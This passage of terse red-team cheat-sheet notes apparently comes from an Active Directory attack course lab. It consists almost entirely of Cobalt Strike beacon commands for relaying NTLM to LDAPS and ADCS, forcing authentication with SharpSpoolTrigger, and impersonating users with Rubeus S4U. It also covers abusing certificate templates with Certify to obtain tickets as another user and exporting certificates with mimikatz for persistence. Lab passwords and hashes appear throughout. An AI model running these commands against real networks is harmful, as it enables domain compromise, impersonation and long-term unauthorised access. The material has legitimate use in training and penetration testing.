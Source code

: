 ```bash
beacon> inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888
beacon> powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
beacon> rportfwd 8888 localhost 8888
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:dev.cyberbotic.io /user:PVWUMPYT$ /password:'4!t1}}I_CGJ}0OJ'
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:46B94228F43282498F562FEF99C5C4AF67269BE5C8AD31B193135C7BD38A28A2 /nowrap
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888
```

## ADCS

```bash
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
cat cert.pfx | base64 -w 0
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
```

### NTLM Relaying to ADCS HTTP Endpoints

```bash
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102
```

### User & Computer Persistence

#### User

```bash
# Request ticket of user if you dont have one
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
beacon> mimikatz crypto::certificates /export
beacon> download CURRENT_USER_My_0_Nina Lamb.pfx
ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap
```
